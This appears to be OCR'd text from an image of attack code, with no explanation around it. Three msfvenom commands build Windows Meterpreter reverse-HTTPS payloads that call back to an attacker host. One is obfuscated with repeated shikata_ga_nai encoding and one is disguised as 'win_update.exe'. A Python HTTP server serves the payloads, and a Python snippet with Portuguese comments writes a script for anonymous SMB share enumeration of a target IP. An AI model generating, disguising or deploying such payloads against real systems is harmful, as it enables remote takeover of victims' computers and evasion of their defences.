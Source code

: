 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080

# Criando um script Python para enumerar automaticamente shares SMB abertos no alvo usando smbclient e smbmap

script_enum_smb = """
import subprocess

ip_alvo = "192.168.1.84"  # IP alvo

print(f"Iniciando enumeração de shares SMB no host {ip_alvo}...\\n")

# Primeiro, tentamos uma enumeração com smbclient (sem senha)
print("Tentando listar shares com smbclient (acesso anônimo)...")
smbclient_proc = subprocess.run(["smbclient", "-L", ip_alvo, "-N"], stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
print(smbclient_proc.stdout)

# Agora, utilizamos o smbmap para tentar descobrir permissões automaticamente
print("\\nExecutando smbmap para mapear shares e permissões:")
smbmap_proc = subprocess.run(["smbmap", "-H", ip_alvo], stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
print(smbmap_proc.stdout)

print("\\nEnumeração de SMB concluída.")
"""

with open("/mnt/data/enum_smb_shares.py", "w") as f:
    f.write(script_enum_smb)

print("Script pronto criado como 'enum_smb_shares.py'.")





